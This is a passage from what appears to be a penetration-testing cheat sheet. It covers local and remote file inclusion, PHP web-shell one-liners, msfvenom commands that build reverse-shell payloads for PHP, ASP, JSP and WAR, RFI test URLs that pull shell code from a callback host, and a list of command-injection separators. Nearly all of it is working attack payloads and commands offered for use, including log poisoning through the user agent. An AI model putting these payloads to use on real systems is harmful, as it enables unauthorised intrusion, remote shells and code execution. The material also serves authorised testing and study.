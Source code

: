 	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id  
	
## Remote File Inclusion 
Turning LFI to RFI: https://l.avala.mp/?p=241
[Reference](https://sushant747.gitbooks.io/total-oscp-guide/content/remote_file_inclusion.html)  

## Web Payloads 

PHP

    <?php echo shell_exec($_GET['cmd']);?> 
    <?php system($_GET['cmd']);?>
    <?php passthru($_GET['cmd']);?>
      
      
    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### Testing 

    http://example.com/index.php?page=http://callback.com/shell.txt
    http://example.com/index.php?page=http://callback.com/shell.txt%00
    http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt
	
# Command Injection 
[Payloads](https://github.com/payloadbox)    
## Inject Input for Code Execution     

     text;echo test   #Unix only     
     echo test|     #Perl inject when open file     
     text | echo test
     text || echo test   #run 2nd cmd if error on initial      
     text & echo test   #initial cmd as bg task     
     text && echo test   #run 2nd cmd if no error on initial          
     $(echo test)   #bash specific      
     'echo test'    #Unix process substitute     
     >(echo test)    #Unix, process substitute     
    